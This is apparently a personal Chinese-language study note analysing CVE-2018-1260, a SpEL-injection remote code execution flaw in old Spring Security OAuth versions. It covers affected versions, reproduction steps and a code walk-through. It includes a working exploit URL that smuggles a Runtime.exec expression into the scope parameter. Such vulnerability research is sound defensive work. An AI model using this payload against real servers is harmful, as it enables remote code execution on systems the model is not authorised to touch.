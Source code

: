 ## **一：漏洞简介**

在Spring Security OAuth 2.x老的版本中，恶意用户可以向授权服务器发起授权请求，当转发至授权审批终端（Approval Endpoint）时，会导致远程代码执行漏洞的攻击。

## 二：**利用条件**

1、被攻击端作为授权服务器时（如使用了注解）

2、使用了默认审批终端，或重写的审批终端逻辑中使用等对输出内容进行SPEL表达式解析

3、未配置Scopes

## 三：**影响版本**

Spring Security OAuth 2.3到2.3.2

Spring Security OAuth 2.2到2.2.1

Spring Security OAuth 2.1到2.1.1

Spring Security OAuth 2.0到2.0.14

## 四：**漏洞复现**

使用github上已有的demo：https://github.com/wanghongfei/spring-security-oauth2-example

Clone下来后导入idea待全部依赖下载完成。

然后修改cn/com/sina/alan/oauth/config/OAuthSecurityConfig.java中的第67行为：

```
@Override
    public void configure(ClientDetailsServiceConfigurer clients) throws Exception {
       clients.inMemory()
                .withClient("client")
                .authorizedGrantTypes("authorization_code")
                .scopes();
    }
```

然后根据github中的readme中的介绍操作数据库相关（包括：创建库、创建表、添加数据等等）

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_1.png)

然后修改application.properties中的mysql数据库相关的信息。

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_2.png)

然后启动环境并访问：

```
http://localhost:8080/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.github.com/chybeta&scope=%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22calc.exe%22%29%7D
```

会重定向到登陆页面，随便输入用户名密码后点击登陆

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_3.png)

触发payload:

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_4.png) 



## 五：漏洞分析

Spring Security OAuth在org.springframework.security.oauth2.provider.endpoint.AuthorizationEndpoint对用户的认证请求进行处理，其中对应的URL是@RequestMapping({"/oauth/authorize"})，其中有一处关键的地方是在于this.oauth2RequestValidator.validateScope(authorizationRequest, client);，此代码是用于对用户传入的scope进行认证。通过动态分析来分析对scope的认证过程以及绕过方法。

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_5.png)

跟踪进入到org.springframework.security.oauth2.provider.request.DefaultOAuth2RequestValidator:validateScope()方法中，代码如下：

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_6.png)

调用的是DefaultOAuth2RequestValidator的私有validateScope()方法

其中的参数如下：

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_7.png)

通过动态调试发现，`requestScopes`是传入的rce的payload，是`${T(java.lang.Runtime).getRuntime().exec("calc.exe")}`不为null，而`clientScopes`是我们在搭建环境时在`OAuthSecurityConfig`设置的，值为空。所以在这里我们就绕过了`validateScope()`的检测。

最后我们回到主函数`@RequestMapping({"/oauth/authorize"})`中，最终出现会进入到121行中的`return this.getUserApprovalPageResponse(model, authorizationRequest, (Authentication)principal);`中。跟踪`getUserApprovalPageResponse()`进入到`org.springframework.security.oauth2.provider.endpoint.AuthorizationEndpoint:getUserApprovalPageResponse()`

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_8.png)

当执行到`new ModelAndView(this.userApprovalPage, model);`时，此时的各项参数如下所示：

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_9.png)

所以程序内部会跳转到forward:/oauth/confirm_access。

继续执行，执行到org.springframework.security.oauth2.provider.endpoint.WhitelabelApprovalEndpoint:getAccessConfirmation()。getAccessConfirmation()对forward:/oauth/confirm_access进行响应处理。

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_10.png)

进入到创建模板函数createTemplate()中

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_11.png)

其中model和request的参数信息如下：

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_12.png)

根据参数信息，函数会执行到`template = template.replace("%scopes%", this.createScopes(model, request)).replace("%denial%", "");`，跟踪`this.createScopes()`进一步分析。

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_13.png)

函数的工作很明确，获取到scopes的内容拼接成为字符串返回。最终得到的builder.toString()的结果是：

```
<ul><li><div class='form-group'>scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}: <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='true'>Approve</input> <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='false' checked>Deny</input></div></li></ul>
```

返回到createTemplate()函数中，最终template()返回的结果是:

```
<html><body><h1>OAuth Approval</h1><p>Do you authorize '${authorizationRequest.clientId}' to access your protected resources?</p><form id='confirmationForm' name='confirmationForm' action='${path}/oauth/authorize' method='post'><input name='user_oauth_approval' value='true' type='hidden'/><input type='hidden' name='${_csrf.parameterName}' value='${_csrf.token}' /><ul><li><div class='form-group'>scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}: <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='true'>Approve</input> <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='false' checked>Deny</input></div></li></ul><label><input name='authorize' value='Authorize' type='submit'/></label></form></body></html>
```

可以看到在template模板中已经携带有我们的payload，`scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}`。

执行完`createTemplate()`函数之后，程序回到`getAccessConfirmation()`中，程序最后执行到`return new ModelAndView(new SpelView(template), model);`

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_14.png)

进入到new SpelView(template)中，new SpelView()会对template中的spel表达式解释执行最终造成rce。

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_15.png)

`Expression expression = SpelView.this.parser.parseExpression(name);`会对template中的内容进行解析包括scope，最终造成rce。

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_16.png)

## 六：参考链接

[**https://blog.spoock.com/2018/05/13/cve-2018-1260/**](https://blog.spoock.com/2018/05/13/cve-2018-1260/)

## 七：个人github

https://artio-li.github.io/

